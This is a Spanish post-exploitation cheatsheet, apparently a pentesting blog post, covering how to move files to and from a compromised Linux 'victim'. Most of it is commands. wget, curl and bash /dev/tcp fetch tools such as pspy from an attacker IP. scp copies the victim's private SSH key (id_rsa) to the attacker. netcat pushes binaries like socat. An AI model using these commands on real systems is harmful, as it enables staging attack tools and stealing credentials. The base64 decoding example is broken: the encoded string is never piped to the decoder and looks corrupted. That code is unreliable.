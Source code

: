 ```yaml
---
title: "Transferir Archivos (Linux)"
date: 2024-10-20 00:00:00 +0800
categories: cheatsheets
tags: privesc linux
description: Formas de transferirnos los archivos a nuestra máquina atacante a través de la máquina víctima y viceversa en Linux.
---
```


## Definición

Cuando hemos ganado acceso a la máquina víctima es posible que llegue el momento en cual debemos transferirnos archivos a la máquina víctima para aplicar un mayor reconocimiento dentro de esta y así poder aplicar Técnicas de escala de privilegios (Linux), para que dicho proceso de Transferencia sea más sencillo he creado el siguiente recurso el cual recoge los principales métodos de transferencia para máquina Linux.
> 
> *Accediendo al siguiente recurso podemos encontrar de forma más información sobre las transferencias de archivos <a href="https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/" target="_blank">IronHackers</a>*.

___
## Tipos

> *Cuando no se especifique el caso del **Atacante** será porque se puede hacer con un simple servidor **HTTP**, ya sea con **python**, **php** o de cualquier otra forma. Véase <a href="#">Servidores HTTP</a>.*

### Wget
#### Víctima

```bash
wget http://<direcciónIP>/<recurso>
```

___
### Curl
#### Víctima

> Estaremos añadiendo el parámetro `-O` para cuando queremos mantener el nombre del archivo, y añadiremos una `-o` para cuando queramos cambiarle el nombre

```bash
curl http://<direcciónIP>/<recurso> -O
curl http://<direcciónIP>/<recurso> -o <nombrepersonalizado>
```

___
### SCP

> *Para este caso debemos de tener acceso a la máquina a través del servicio **SSH**.*

#### Atacante

```bash
scp /home/terror/Descargas/socat juan@172.17.0.2:/tmp
```

> *En el caso particular que queremos descargarnos a nuestra máquina de atacante un archivo de la máquina víctima usando SCP podemos hacer:*

```bash
scp juan@172.17.0.2:/home/juan/.ssh/id_rsa
```

____
### /dev/tcp
#### Atacante

```bash
nc -nlvp 443 < pspy
```

#### Víctima

```bash
cat < /dev/tcp/192.168.18.10/443 > pspy
```

![Pasted image 20240826192540.png](<../assets/images/posts/2024-10-20-transferirarchivos/Pasted image 20240826192540.png>)

___
### base64
#### Víctima

```bash
echo -n "QmVuIHNpc3RlbWEgZGUgbnVtZXJhY2nzbiBwbpY2lvbmFsIHF1ZSB1c2ENjQgY2tbyBiYXNLiYXlvciBwb3RlbmNpYSBxdWUgcHVlZGUgc2VyIHJlcHJlc2VudGFkYSB1c2FuZG8g+m5pY2Ft"; echo | base64 -d
```

___
### NetCat
#### Atacante

```bash
nc 172.17.0.2 443 < /home/terror/Descargas/socat
```
#### Víctima

```bash
nc -nvlp 443 > socat
```

___
## Comprobar integridad con md5sum

> Gracias al comando `md5sum` podemos comprobar la integridad de los archivos transferidos y saber si se han corrompido durante dicha Transferencia.

```bash
md5sum <nombrearchivo>
```


![Pasted image 20240826192602.png](<../assets/images/posts/2024-10-20-transferirarchivos/Pasted image 20240826192602.png>)